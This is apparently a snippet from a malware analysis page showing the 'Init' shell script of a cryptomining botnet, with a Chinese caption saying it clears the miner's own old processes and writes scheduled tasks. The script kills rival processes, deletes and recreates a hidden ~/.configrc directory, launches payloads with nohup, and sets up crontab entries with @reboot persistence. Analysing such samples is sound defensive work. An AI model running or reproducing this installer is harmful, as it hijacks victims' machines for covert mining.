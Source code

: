 **Init**
```
pkill -9 go> .out
pkill -9 run> .out
pkill -9 tsm> .out
kill -9 `ps x|grep run|grep -v grep|awk '{print $1}'`> .out
kill -9 `ps x|grep go|grep -v grep|awk '{print $1}'`> .out
kill -9 `ps x|grep tsm|grep -v grep|awk '{print $1}'`> .out

pwd > dir.dir
dir=$(cat dir.dir)
cd $dir
chmod 777 *

rm -rf cron.d
rm -rf ~/.nullcach*
rm -rf ~/.firefoxcatch*
rm -rf ~/.bashtem*
rm -rf ~/.configrc*
mkdir ~/.configrc
cp -r a ~/.configrc/
cp -r b ~/.configrc/

cd ~/.configrc/a/
nohup ./init0 >> /dev/null &
sleep 5s
nohup ./a >>/dev/null &
cd ~/.configrc/b/
nohup ./a >>/dev/null &

cd $dir
cd c
nohup ./start >>/dev/null &
cd ~/.configrc/
pwd > dir2.dir
dir2=$(cat dir2.dir)

echo "1 1 */2 * * $dir2/a/upd>/dev/null 2>&1
@reboot $dir2/a/upd>/dev/null 2>&1
5 8 * * 0 $dir2/b/sync>/dev/null 2>&1
@reboot $dir2/b/sync>/dev/null 2>&1  
0 0 */3 * * $dir/c/aptitude>/dev/null 2>&1" >> cron.d

sleep 3s

rm -rf ~/ps
rm -rf ~/ps.*

crontab cron.d
crontab -l
```
>Init中清理自身挖矿进程，写入定时任务
